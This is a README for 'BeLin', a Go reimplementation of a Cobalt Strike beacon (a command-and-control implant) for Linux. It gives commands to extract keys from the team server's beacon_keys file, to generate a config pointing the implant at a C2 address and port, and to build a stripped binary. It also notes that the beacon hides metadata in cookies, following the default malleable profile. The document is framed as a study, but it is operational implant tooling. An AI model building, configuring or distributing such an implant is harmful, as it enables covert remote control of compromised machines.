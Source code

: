 # [Be]acon for [Lin]ux

This repository contains a study and implementation of a Cobalt Strike beacon for linux based operation system.

Refer to [NOTES.md](NOTES.md) as more information about the project.

Extract the keys from `.cobaltstrike.beacon_keys` using the file under `cmd/KeyExt/`.

```
go run cmd/keyExt/main.go ./cobaltstrike.beacon_keys

-----BEGIN PUBLIC KEY-----
MIGfMA0G...
-----END PUBLIC KEY-----
-----BEGIN PUBLIC KEY-----
MIGfMA0G...
-----END PUBLIC KEY-----
```

Or use the config gen to create a configuration file that must be placed within the folder `config`.

```bash
go run cmd/configGen/main.go -k ./cobaltstrike.beacon_keys -a <c2 ip>:<port> > config/config.go
```

Now build the binary.

```bash
go build -o name -ldflags="-s -w" cmd/main/main.go
```

Have in mind that this "beacon" will use the default CS malleable profile, placing the metadata in cookie and posting the response with the query string `id` as the session/beacon id.